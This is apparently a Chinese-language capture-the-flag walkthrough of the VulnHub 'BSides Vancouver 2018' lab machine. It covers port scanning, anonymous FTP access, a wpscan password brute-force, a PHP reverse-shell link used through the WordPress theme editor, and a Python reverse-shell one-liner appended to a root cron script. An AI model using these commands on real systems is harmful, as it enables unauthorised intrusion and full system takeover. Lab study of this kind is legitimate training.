










# BSides Vancouver 2018

下载地址：https://download.vulnhub.com/bsidesvancouver2018/BSides-Vancouver-2018-Workshop.ova


## 实战演练

### 信息收集

找到靶场IP地址：192.168.32.152



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.152                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 00:27 EDT
Nmap scan report for 192.168.32.152
Host is up (0.00021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 00:0C:29:C9:21:FA (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.57 seconds

```

#### vsftp



FTP可以使用匿名用户登录


找到一个用户名表

```
┌──(root💀kali)-[~/Desktop]
└─# cat users.txt.bk          
abatchy
john
mai
anne
doomguy
```

#### http

找到robots.txt





找到`/backup_wordpress`目录





爆破WP密码，找到`enigma`密码

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://192.168.32.152/backup_wordpress/    -U user.txt -P pasword.txt  
```



登录系统，来到主题编辑页面



修改为webshell文件：https://raw.githubusercontent.com/tutorial0/WebShell/master/Php/php-reverse-shell.php



查看定时计划，找到一个root用户启动程序：`/usr/local/bin/cleanup`



查看cleanup脚本

```
cat  /usr/local/bin/cleanup
#!/bin/sh

rm -rf /var/log/apache2/*       # Clean those damn logs!!
```


```
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" >> cleanup
```

